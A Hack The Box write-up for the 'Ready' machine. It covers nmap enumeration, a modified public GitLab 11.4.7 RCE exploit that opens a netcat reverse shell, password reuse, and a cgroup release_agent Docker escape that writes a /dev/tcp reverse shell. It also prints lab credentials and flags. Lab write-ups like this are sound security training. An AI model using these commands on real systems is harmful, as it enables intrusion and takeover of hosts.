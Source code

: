 ```yaml
---
layout: post
title: "Ready "
lang: en
categories:
  - writeups
tags:
  - security
  - writeups
  - htb
  - eop
  - linux
  - web
  - docker
date: 2021/05/15 20:57:00
thumbnail: /img/HackTheBox/ready.png

toc: true
---
```

# Information



- **Name:** Ready
- **Profile:** [www.hackthebox.eu](https://app.hackthebox.eu/machines/304)
- **Difficulty:** Medium
- **OS:** Linux
- **Points:** 30

![Ready](/img/HackTheBox/ready.png)



## Overview

Install tools used in this WU on BlackArch Linux:

```
$ sudo pacman -S nmap exploit-db pwncat
```

## Network enumeration

Port and service scan with nmap:

```
# Nmap 7.91 scan initiated Fri Feb  5 18:56:03 2021 as: nmap -sSVC -p- -v -oA nmap_scan 10.10.10.220
Nmap scan report for 10.10.10.220
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
|_http-favicon: Unknown favicon MD5: F7E3D97F404E71D302B3239EEF48D5F2
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile
| /dashboard /projects/new /groups/new /groups/*/edit /users /help
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb  5 18:56:34 2021 -- 1 IP address (1 host up) scanned in 30.44 seconds
```

## Web discovery

We have a Gitlab server at http://10.10.10.220:5080

We can register and once authenticated at http://10.10.10.220:5080/help
we can find the version is 11.4.7.

`searchsploit gitlab 11.4.7` shows us 3 RCE.

Exploring for public projects at http://10.10.10.220:5080/explore/projects
we can see `dude/ready-channel`.

## Web exploitation

All the exploits are dirty and broken so I picked the first and had to modify it:

```plaintext
$ searchsploit -p 49334.py
  Exploit: GitLab 11.4.7 - RCE (Authenticated)
      URL: https://www.exploit-db.com/exploits/49334
     Path: /usr/share/exploitdb/exploits/ruby/webapps/49334.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

$ cp /usr/share/exploitdb/exploits/ruby/webapps/49334.py .
```

`diff /usr/share/exploitdb/exploits/ruby/webapps/49334.py 49334.py`

```diff
22c22
< parser.add_argument('-P', help='reverse shell port', required=True)
---
> parser.add_argument('-x', help='reverse shell port', required=True)
29c29
< local_port = args.p
---
> local_port = args.x
59c59
<     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
---
>     lpush resque:gitlab:queue:system_hook_push "{\\"class\\":\\"GitlabShellWorker\\",\\"args\\":[\\"class_eval\\",\\"open(\\'|""" + f'nc {local_ip} {local_port}' + ' -e /bin/bash' + """ \\').read\\"],\\"retry\\":3,\\"queue\\":\\"system_hook_push\\",\\"jid\\":\\"ad52abc5641173e217eb2e52\\",\\"created_at\\":1608799993.1234567,\\"enqueued_at\\":1608799993.1234567}"
```

Then we can launch the exploit.

```plaintext
$ python 49334.py -u noraj -p password -g http://10.10.10.220 -l 10.10.14.172 -x 9999
```

We receive the reverse shell on our listener:

```
$ pwncat -l 9999 -vv
INFO: Listening on :::9999 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:9999 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:59942 (family 2/IPv4, TCP)
id
uid=998(git) gid=998(git) groups=998(git)
```

Let's find the flag:

```
$ find /home -name user.txt -type f
/home/dude/user.txt
```

## Privilege Escalation of Machine : from git to root

We are in a docker container:

```plaintext
git@gitlab:~$ ls -lh /.dockerenv
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

There is the password of root (container).

```
git@gitlab:~$ cat /root_pass
YG65407Bjqvv9A0a8Tm_7w
```
In `/var/backup` there is a `docker-compose.yml` explaining the origin of
`root_pass`.

```yml
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'
      - './srv/gitlab/logs:/var/log/gitlab'
      - './srv/gitlab/data:/var/opt/gitlab'
      - './root_pass:/root_pass'
    privileged: true
    restart: unless-stopped
    #mem_limit: 1024m

networks:
  gitlab:
    driver: bridge
    ipam:
      config:
        - subnet: 172.19.0.0/16
```

There is a password in gitlab config:

```
git@gitlab:/opt/backup$ grep -v '^#' gitlab.rb | tr -d '\n' && echo
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

Then we can try password reuse on the root account.

```
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# cd
root@gitlab:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we have to escape from the container.

I used the second PoC from [HackTricks - Docker breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.172/8888 0>&1" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

And received the reverse shell:

```plaintext
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.220:34958 (family 2/IPv4, TCP)
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@ready:/# id
uid=0(root) gid=0(root) groups=0(root)
root@ready:/# cat /root/root.txt
b7f98681505cd39066f67147b103c2b3
```
